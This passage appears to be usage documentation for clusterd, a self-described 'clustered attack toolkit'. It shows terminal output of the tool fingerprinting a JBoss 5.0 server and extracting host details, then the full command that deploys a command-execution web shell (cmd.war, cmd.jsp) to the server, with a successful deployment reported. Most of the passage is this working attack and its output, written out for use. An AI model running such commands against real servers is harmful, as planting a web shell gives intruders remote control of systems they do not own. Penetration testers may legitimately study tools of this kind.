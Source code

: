 ```
 [2014-05-25 10:57PM] Checking jboss version Any JBoss HTTP Headers (Unreliable)...
 [2014-05-25 10:57PM] Checking jboss version Any JBoss JMX Invoker Servlet...
 [2014-05-25 10:57PM] Checking jboss version Any JBoss RMI Interface...
 [2014-05-25 10:57PM] Checking jboss version Any JBoss Status Page...
 [2014-05-25 10:57PM] Matched 7 fingerprints for service jboss
 [2014-05-25 10:57PM]   JBoss JMX Console (version 5.0)
 [2014-05-25 10:57PM]   JBoss Web Console (version 5.0)
 [2014-05-25 10:57PM]   JBoss EJB Invoker Servlet (version Any)
 [2014-05-25 10:57PM]   JBoss HTTP Headers (Unreliable) (version 5.0)
 [2014-05-25 10:57PM]   JBoss JMX Invoker Servlet (version Any)
 [2014-05-25 10:57PM]   JBoss RMI Interface (version Any)
 [2014-05-25 10:57PM]   JBoss Status Page (version Any)
 [2014-05-25 10:57PM] Fingerprinting completed.
 [2014-05-25 10:57PM] Attempting to retrieve JBoss info...
 [2014-05-25 10:57PM]   ActiveThreadCount: 68    
 [2014-05-25 10:57PM]   AvailableProcessors: 1    
 [2014-05-25 10:57PM]   OSArch: amd64    
 [2014-05-25 10:57PM]   MaxMemory: 518979584    
 [2014-05-25 10:57PM]   HostAddress: 192.168.1.105    
 [2014-05-25 10:57PM]   JavaVersion: 1.7.0_45    
 [2014-05-25 10:57PM]   OSVersion: 6.1    
 [2014-05-25 10:57PM]   TotalMemory: 286703616    
 [2014-05-25 10:57PM]   JavaVendor: Oracle Corporation    
 [2014-05-25 10:57PM]   ActiveThreadGroupCount: 9    
 [2014-05-25 10:57PM]   OSName: Windows 7    
 [2014-05-25 10:57PM]   FreeMemory: 122651808    
 [2014-05-25 10:57PM]   HostName: bryan-PC    
 [2014-05-25 10:57PM]   JavaVMVersion: 24.45-b08    
 [2014-05-25 10:57PM]   JavaVMVendor: Oracle Corporation    
 [2014-05-25 10:57PM]   JavaVMName: Java HotSpot(TM) 64-Bit Server VM    
 [2014-05-25 10:57PM] Finished at 2014-05-25 10:57PM
```

jboss DFS deployment against JBoss 5.0
```
$ ./clusterd.py -i 192.168.1.105 -a jboss -v5.0 --deploy ./src/lib/resources/cmd.war --random-agent

        clusterd/0.3 - clustered attack toolkit
            [Supporting 6 platforms]

 [2014-05-25 11:00PM] Started at 2014-05-25 11:00PM
 [2014-05-25 11:00PM] Servers' OS hinted at windows
 [2014-05-25 11:00PM] Fingerprinting host '192.168.1.105'
 [2014-05-25 11:00PM] Server hinted at 'jboss'
 [2014-05-25 11:00PM] Checking jboss version 5.0 JBoss JMX Console...
 [2014-05-25 11:00PM] Checking jboss version 5.0 JBoss Web Console...
 [2014-05-25 11:00PM] Checking jboss version Any JBoss EJB Invoker Servlet...
 [2014-05-25 11:00PM] Checking jboss version Any JBoss HTTP Headers (Unreliable)...
 [2014-05-25 11:00PM] Checking jboss version Any JBoss JMX Invoker Servlet...
 [2014-05-25 11:00PM] Checking jboss version Any JBoss RMI Interface...
 [2014-05-25 11:00PM] Checking jboss version Any JBoss Status Page...
 [2014-05-25 11:00PM] Matched 7 fingerprints for service jboss
 [2014-05-25 11:00PM]   JBoss JMX Console (version 5.0)
 [2014-05-25 11:00PM]   JBoss Web Console (version 5.0)
 [2014-05-25 11:00PM]   JBoss EJB Invoker Servlet (version Any)
 [2014-05-25 11:00PM]   JBoss HTTP Headers (Unreliable) (version 5.0)
 [2014-05-25 11:00PM]   JBoss JMX Invoker Servlet (version Any)
 [2014-05-25 11:00PM]   JBoss RMI Interface (version Any)
 [2014-05-25 11:00PM]   JBoss Status Page (version Any)
 [2014-05-25 11:00PM] Fingerprinting completed.
 [2014-05-25 11:00PM] This deployer requires a JSP, default to cmd.jsp? [Y/n] > 
 [2014-05-25 11:00PM] Preparing to deploy cmd...
 [2014-05-25 11:00PM] Successfully deployed '/cmd/cmd.jsp'
 [2014-05-25 11:00PM] Finished at 2014-05-25 11:00PM
```